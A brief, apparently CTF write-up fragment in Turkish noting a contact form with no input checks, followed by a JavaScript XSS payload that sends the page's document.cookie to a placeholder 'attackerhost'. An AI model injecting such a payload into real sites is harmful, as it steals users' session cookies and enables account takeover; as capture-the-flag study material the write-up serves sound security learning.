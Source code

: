 ![gamingcenter-1](https://github.com/enesdemir41/CTFs/assets/49167863/3b18f727-dfe5-4a24-8f57-843b6594f7cb)

Contact Form alanı Mevcut

Herhangi Bir kontrol yapılmamakta 

        var xhr=new XMLHttpRequest(); 
        xhr.open("GET", "https://attackerhost/?"+document.cookie, true); 
        xhr.send();
